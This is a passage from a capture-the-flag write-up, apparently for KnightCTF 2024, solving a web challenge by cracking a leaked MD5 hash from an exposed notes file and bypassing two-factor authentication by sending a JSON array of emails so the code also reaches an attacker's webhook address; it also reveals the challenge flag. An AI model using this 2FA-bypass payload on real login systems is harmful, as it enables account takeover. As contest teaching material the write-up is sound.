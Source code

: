 ![Gain Access 2](Web/img/gain-access-2.png)

As usual, I checked the source code and found the **notesssssss.txt** file. Which contains an email and a hash (maybe?)

```txt
I've something for you. Think.....
root@knightctf.com:d05fcd90ca236d294384abd00ca98a2d
```

After searching the hash, I found [md5hashing.net](https://md5hashing.net/hash/md5/d05fcd90ca236d294384abd00ca98a2d) can unhash it

![hash](Web/img/gain-access-2-hash.png)

Now, I got the password is `letmein_kctf2024`. But after login in, I faced with **Two-Factor Authentication** aka 2FA

Look at the `Resend Code` function, looks like it only accepts `root@knightctf.com` as you can see in the image below

![resend code](Web/img/gain-access-2-resend-code.png)

What if I add another email besides `root@knightctf.com`?

![hmmm](https://i.imgur.com/iPxv78U.jpg)

And I added `27fbec16-85a8-497b-86ff-5bf0580abdd0@email.webhook.site` to the request by using `[]`, which makes it become a list. You can see more about how it works [here](https://www.w3schools.com/js/js_json_arrays.asp)

```json
{ "email":["root@knightctf.com","27fbec16-85a8-497b-86ff-5bf0580abdd0@email.webhook.site"] }
```

I tried it and it worked. The website sent the code to my email as well

![code](Web/img/gain-access-2-code.png)

![Noice](https://i.imgur.com/jwYlN9G.gif)

Lastly, I entered the code and got the flag for `Gain Access 2`!

![flag](Web/img/gain-access-2-flag.png)

`Flag: KCTF{AuTh_MIsC0nFigUraTi0N}`

# Pwn

## Get The Sword (100 pts)

![get the sword](Pwn/img/get-the-sword.png)

Download link: [https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view](https://drive.google.com/file/d/1HsQMxiZlP5978DzqnoZs6g6QOnCzVm_G/view)
